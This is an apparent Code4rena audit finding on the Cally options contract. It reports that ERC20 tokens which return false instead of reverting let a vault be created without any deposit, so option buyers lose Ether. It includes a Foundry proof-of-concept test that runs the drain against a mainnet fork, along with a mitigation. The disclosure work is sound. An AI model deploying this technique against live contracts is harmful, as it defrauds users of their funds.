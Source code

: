 ## Tags

- bug
- 3 (High Risk)
- resolved
- sponsor confirmed

# [no-revert-on-transfer ERC20 tokens can be drained](https://github.com/code-423n4/2022-05-cally-findings/issues/89) 

# Lines of code

https://github.com/code-423n4/2022-05-cally/blob/main/contracts/src/Cally.sol#L198-L200


# Vulnerability details

## Impact
Some ERC20 tokens don't throw but just return false when a transfer fails. This can be abused to trick the `createVault()` function to initialize the vault without providing any tokens. A good example of such a token is *ZRX*: [Etherscan code](https://etherscan.io/address/0xe41d2489571d322189246dafa5ebde1f4699f498#code#L64)

When such a vault is initialized, another user can both buy and exercise the option without ever receiving any funds. The creator of the vault does receive the buyer's Ether tho. So it can cause a loss of funds.

## Proof of Concept
The trick is to create a vault with an ERC20 token but use ERC721 as the vault's type. Then, instead of calling `safeTransferFrom()` the function calls `transferFrom()` which won't catch the token returning false.

Here's a test that showcases the issue:

```solidity
// CreateVault.t.sol
    function testStealFunds() public {
        // address of 0x on mainnet
        address t = address(0xE41d2489571d322189246DaFA5ebDe1F4699F498);
        vm.startPrank(babe);
        require(ERC20(t).balanceOf(babe) == 0);
        uint vaultId = c.createVault(100, t, 1, 1, 1, 0, Cally.TokenType.ERC721);
        // check that neither the Cally contract nor the vault creator
        // had any 0x tokens
        require(ERC20(t).balanceOf(babe) == 0);
        require(ERC20(t).balanceOf(address(c)) == 0);

        // check whether vault was created properly
        Cally.Vault memory v = c.vaults(vaultId);
        require(v.token == t);
        require(v.tokenIdOrAmount == 100);
        vm.stopPrank();
        // So now there's a vault for 100 0x tokens although the Cally contract doesn't
        // have any.
        // If someone buys & exercises the option they won't receive any tokens.
        uint premium = 0.025 ether;
        uint strike = 2 ether;
        require(address(c).balance == 0, "shouldn't have any balance at the beginning");
        require(payable(address(this)).balance > 0, "not enough balance");

        uint optionId = c.buyOption{value: premium}(vaultId);
        c.exercise{value: strike}(optionId);

        // buyer of option (`address(this)`) got zero 0x tokens
        // But buyer lost their Ether
        require(ERC20(t).balanceOf(address(this)) == 0);
        require(address(c).balance > 0, "got some money");
    }
```

To run it, you need to use forge's forking mode: `forge test --fork-url <alchemy/infura URL> --match testStealFunds`

## Tools Used
none

## Recommended Mitigation Steps
I think the easiest solution is to use `safeTransferFrom()` when the token is of type ERC721. Since the transfer is at the end of the function there shouldn't be any risk of reentrancy. If someone passes an ERC20 address with type ERC721, the `safeTransferFrom()` call would simply fail since that function signature shouldn't exist on ERC20 tokens.

